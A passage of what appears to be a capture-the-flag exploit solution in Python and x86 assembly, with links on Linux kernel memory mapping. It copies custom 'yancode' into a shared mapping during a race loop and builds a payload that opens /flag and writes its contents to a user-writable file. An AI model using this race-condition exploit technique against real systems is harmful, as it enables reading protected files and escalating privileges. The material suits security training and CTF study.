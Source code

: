 ```python
jmp race_loop

parent:
mov rax, [rip + saved_mmap_addr]
lea rbx, [rip + yancode_start]
mov rcx, 0

copy_loop:
mov dl, byte ptr[rbx + rcx]
mov byte ptr[rax + rcx], dl
inc rcx
cmp rcx, yancode_end - yancode_start
je done
jmp copy_loop

done:
mov rdi, 3
mov rsi, 1337
mov rax, 16
syscall
jmp done

yancode_start:
{}

yancode_end:
saved_mmap_addr:
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
.byte 0
'''

def main():     
    p = process(BINARY)
    
    flag_path = b'/flag\x00'
    flag_addr = 0
    flag_content_addr = flag_addr + len(flag_path)
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "flag" in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path)
    # open("/flag", O_RDONLY, 0)
    yancode += open_file(file_addr=flag_addr)
    # read(fd, &mem[0], 0x50)
    yancode += read_to_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)

    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)

```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html